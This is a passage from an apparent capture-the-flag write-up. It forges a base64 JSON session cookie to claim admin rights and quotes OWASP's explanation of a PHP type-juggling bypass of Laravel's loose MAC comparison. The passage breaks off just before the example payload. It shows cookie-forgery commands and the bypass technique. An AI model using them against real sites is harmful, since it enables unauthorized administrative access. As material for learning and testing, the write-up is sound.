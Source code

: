 ```
what are you trying to do huh?
```

### NEW COOKIE II (USER:ADMIN, ADMIN:TRUE)

Let's play with the "User" flag as well?

```
$ echo -n '{"User":"Admin","Admin":"True","MAC":"ff6d0a568d61e5a03bcdb04509d5885d"}' | base64
eyJVc2VyIjoiQWRtaW4iLCJBZG1pbiI6IlRydWUiLCJNQUMiOiJmZjZkMGE1NjhkNjFlNWEwM2JjZGIwNDUwOWQ1ODg1ZCJ9
```

```
URL ENCODED COOKIE
ses=eyJVc2VyIjoiQWRtaW4iLCJBZG1pbiI6IlRydWUiLCJNQUMiOiJmZjZkMGE1NjhkNjFlNWEwM2JjZGIwNDUwOWQ1ODg1ZCJ9
```

Hm.. still the same "what are you trying to do huh?" response as when we just
fiddled with the `Admin` flag.

### NEW COOKIE III (USER:ADMIN, ADMIN:TRUE, MAC:???)

Okay. so it looks like we need to fool the MAC field?

```
https://en.wikipedia.org/wiki/Hash-based_message_authentication_code

In cryptography, a keyed-hash message authentication code (HMAC) is a specific
type of message authentication code (MAC) involving a cryptographic hash
function and a secret cryptographic key. It may be used to simultaneously verify
both the data integrity and the authentication of a message, as with any MAC. 
```

Researching around (i.e. Google), came across the topic of `type juggling`
with `PHP` that might be interesting to try..

```
Laravel Cryptographic MAC Bypass
https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf

A Laravel "encryption payload" looks like this:
{
 "iv": "137f87545d8d2f994c65a6f336507747",
 "value": "c30fbe54e025b2a509db7a1fc174783c35d023199f9a0e24ae23a934277aec66"
 "mac": "68f6611d14aa021a80c3fc09c638de6de12910486c0c82703315b5d83b8229bb",
}

The MAC check code looked like this:

$payload = json_decode(base64_decode($payload), true);
if ($payload['mac'] != hash_hmac('sha256', $payload['value'], $this->key))
 throw new DecryptException("MAC for payload is invalid.");

The calculated MAC (i.e. the result of hash_hmac()) is a string containing
hexadecimal characters.

The use of a loose comparison means that if an integer was provided in the JSON
payload, the HMAC string will be juggled to a number

- "7a5c2...72c933" == int(7)
- "68f66...8229bb" == int(68)
- "092d1...c410a9" == int(92)

If the calculated MAC is "68f66...8229bb" then the following payload will pass
the MAC check:
{
```